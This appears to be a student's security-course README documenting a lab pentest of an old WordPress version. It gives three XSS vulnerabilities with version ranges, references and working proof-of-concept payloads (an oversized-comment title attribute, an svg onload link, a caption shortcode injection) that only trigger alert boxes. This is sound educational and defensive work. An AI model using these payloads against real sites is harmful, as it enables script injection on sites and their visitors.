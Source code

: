 # CodePath-Week-7
# Angie Vo (adv3ks)
# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Unathenticated Stored XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2 
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: ![unauthenticated stored xss](https://user-images.githubusercontent.com/18065015/38169116-084875f0-352f-11e8-9747-450b6a514fd5.gif)
  - [ ] Steps to recreate: Posted the following comment in Javascript and made the comment longer than 64 KB:
   ```
   <a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
   ```
  - [ ] Affected source code: 
    - [Link 1](http://klikki.fi/adv/wordpress2.html)
1. (Required) Authenticated XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.0
    - Fixed in version: 4.2.13
  - [ ] GIF Walkthrough: ![authenticated xss](https://user-images.githubusercontent.com/18065015/38175615-62ef801a-35ad-11e8-8247-c62b87310c66.gif)
  - [ ] Steps to recreate: Create or edit a post and post the following link into the text: `https://google.com<svg onload=alert("attack")>` 
  - [ ] Affected source code:
    - [Link 1](https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
1. (Required) Authenticated Shortcode Tag XSS
  - [ ] Summary: 
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.5
  - [ ] GIF Walkthrough: ![authenticated shortcode tag xss](https://user-images.githubusercontent.com/18065015/38175750-5cdca156-35af-11e8-9708-ca70df846393.gif)
  - [ ] Steps to recreate: Create or edit a new post and insert the following into the text box: 
  ```
  Hello this is a test page [caption width="1" caption='<a href="' ">]<a href="http://onMouseOver='alert(100)'">Hello</a>
  ```
  - [ ] Affected source code:
    - [Link 1](http://blog.knownsec.com/2015/09/wordpress-vulnerability-analysis-cve-2015-5714-cve-2015-5715/)


List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
